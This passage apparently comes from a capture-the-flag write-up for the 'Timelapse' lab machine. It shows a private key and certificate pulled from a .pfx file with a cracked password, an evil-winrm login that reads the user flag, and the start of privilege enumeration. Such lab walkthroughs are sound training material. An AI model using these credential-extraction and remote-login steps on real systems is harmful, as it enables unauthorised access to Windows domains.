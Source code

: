 ```bash
WINRM       10.10.11.152    5986   DC01             [-] timelapse.htb\legacy:thuglegacy "HTTPConnectionPool(host='10.10.11.152', port=5985): Max retries exceeded with url: /wsman (Caused by ConnectTimeoutError(<urllib3.connection.HTTPConnection object at 0x7f4a3de153a0>, 'Connection to 10.10.11.152 timed out. (connect timeout=30)'))"
```

However, testing the ldap credentials against everything and anything results in errors.. so lets go back to the `.pfx` file. 
Reading about the `.pfx` we should be able to extract a `.key` and `.crt` file, which we can later use for evil-winrm login.
```bash
➜  Dev openssl pkcs12 -in legacyy_dev_auth.pfx  -nocerts -out priv.key
Enter Import Password: thuglegacy
Enter PEM pass phrase: thuglegacy
Verifying - Enter PEM pass phrase: thuglegacy
➜  Dev openssl pkcs12 -in legacyy_dev_auth.pfx  -clcerts -nokeys -out pfx.crt
Enter Import Password: thuglegacy

➜  Dev evil-winrm -i 10.10.11.152 -c pfx.crt -k priv.key -p -u -S 
Enter PEM pass phrase: thuglegacy
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
*Evil-WinRM* PS C:\Users\legacyy\Desktop> type user.txt
98f42c5d696089eac85401c445d1e2f9
```


--------------

# ROOT
### Step 1 
With manual information we see that the privileges are low and no interesting groups.
```powershell
*Evil-WinRM* PS C:\Users\legacyy\Desktop> whoami /all
USER INFORMATION
----------------

User Name         SID
================= ============================================
timelapse\legacyy S-1-5-21-671920749-559770252-3318990721-1603


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
```